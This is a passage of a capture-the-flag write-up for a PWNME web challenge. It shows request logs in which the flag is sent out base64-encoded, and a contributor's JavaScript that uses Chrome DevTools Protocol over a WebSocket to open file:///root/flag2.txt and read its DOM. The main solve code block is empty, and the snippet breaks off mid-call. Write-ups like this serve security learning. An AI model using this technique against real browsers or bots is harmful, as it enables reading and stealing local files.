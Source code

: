 ```js
```

The response to the solve:
```
GET /a HTTP/1.1
GET /?openedWS HTTP/1.1
GET /?gotTargetId=E163C43EFF2F0BCC816058D3F1E11561 HTTP/1.1
GET /?gotSessionId=98047CDC4DEE1E748BA7CA2667C39C33 HTTP/1.1
GET /?found=PWNME&content=PGh0bWw+PGhlYWQ+PG1ldGEgbmFtZT0iY29sb3Itc2NoZW1lIiBjb250ZW50PSJsaWdodCBkYXJrIj48L2hlYWQ+PGJvZHk+PHByZSBzdHlsZT0id29yZC13cmFwOiBicmVhay13b3JkOyB3aGl0ZS1zcGFjZTogcHJlLXdyYXA7Ij5QV05NRXtGQUtFX0ZMQUd9CjwvcHJlPjwvYm9keT48L2h0bWw+ HTTP/1.1
```

Flag: `PWNME{FAKE_FLAG_BECAUSE_THIS_IS_A_POSTSOLVE}`


## Other Solutions

### DOM

User `TechnologicNick` had a solve using `DOM`:

```js
...
devtools.onopen = () => {
        callback("Opened");

        devtools.send(JSON.stringify({
            id: 1,
            method: 'Target.createTarget',
            params: {
                url: "file:///root/flag2.txt",
            },
        }));
    };

    devtools.onerror = (err) => {
        console.error('WebSocket Error: ', err);
        callback("WebSocket Error: " + err);
    }

    devtools.onmessage = (event) => {
        // const {result: {result: {value}}} = JSON.parse(data);
        // console.log('WebSocket Message Received: ', value)
        callback("<-- " + event.data);
        const obj = JSON.parse(event.data);

        if (obj.id === 1 && sessionId === null) {
            const targetId = obj.result.targetId;

            devtools.send(JSON.stringify({
                id: 2,
                method: 'Target.attachToTarget',
                params: {
                    targetId,
                    flatten: true
                }
            }));
        } else if (obj.id === 2 && sessionId === null) {
            sessionId = obj.result.sessionId;

            devtools.send(JSON.stringify({
                sessionId,
                id: 3,
                method: 'DOM.getDocument',
```